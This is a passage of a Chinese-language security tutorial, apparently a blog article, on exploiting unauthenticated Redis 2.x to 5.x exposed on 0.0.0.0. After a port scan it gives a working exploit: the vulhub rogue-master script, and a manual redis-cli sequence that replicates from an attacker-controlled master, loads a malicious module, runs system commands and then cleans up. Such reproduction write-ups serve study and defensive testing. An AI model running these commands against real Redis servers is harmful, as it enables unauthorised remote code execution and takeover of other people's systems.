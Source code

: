 **3.影响版本**  
  
2.x，3.x，4.x，5.x  
  
**4.复现**  
  
首先漏洞产生条件上面也提到了,再叙述一遍  
  
(1) Redis绑定在0.0.0.0:6379,且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网  
  
(2) 没有设置密码认证（默认为空）或者弱密码，可以免密码登录redis服务  
  
1.扫一下6379端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPy5NI9rsBxmUnsUXO7wwEf3zh40licNzLxs54GwDabdBvO0nrIWUAAXOw/640?wx_fmt=png&from=appmsg "")  
  
2.判断漏洞是否存在  
  
kali安装连接工具  
```
wget http://download.redis.io/redis-stable.tar.gz
tar -zxvf redis-stable.tar.gz
cd redis-stable
make
```  
  
info一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPyrA5ia53lgy8kcBqwKQFl4MImYZ99jPrgf77ox3MFuiaTA5KfeEdVicPSw/640?wx_fmt=png&from=appmsg "")  
  
3.执行命令  
```
git clone https://github.com/vulhub/redis-rogue-getshell.git
cd redis-rogue-getshell/RedisModulesSDK/exp
make
cd ../../
./redis-master.py -r 192.168.1.10 -p 6379 -L 192.168.1.18 -P 8989 -f RedisModulesSDK/exp/exp.so -c "whoami"(第一个ip为靶机,第二个为kali
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPyYg6LlxKicHa04CDvhaiaFBQZ61t3Eh4ic6GrAXuialU4rkIOIpibewH3ibtQ/640?wx_fmt=png&from=appmsg "")  
  
手动也行  
```
redis-cli -h 192.168.1.10
> config set dir ./               
> config set dbfilename exp.so    
> slaveof 192.168.1.1 9999       
> module load ./exp.so          
> slaveof no one                 
> system.exec 'whoami'            
> config set dbfilename dump.rdb  
> system.exec 'rm ./exp.so'       
> module unload system
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPyibnWajJYoRcYnKepO0pADYib8BE52JUoZeltgBs812q7RM494I3DiawJw/640?wx_fmt=png&from=appmsg "")  
  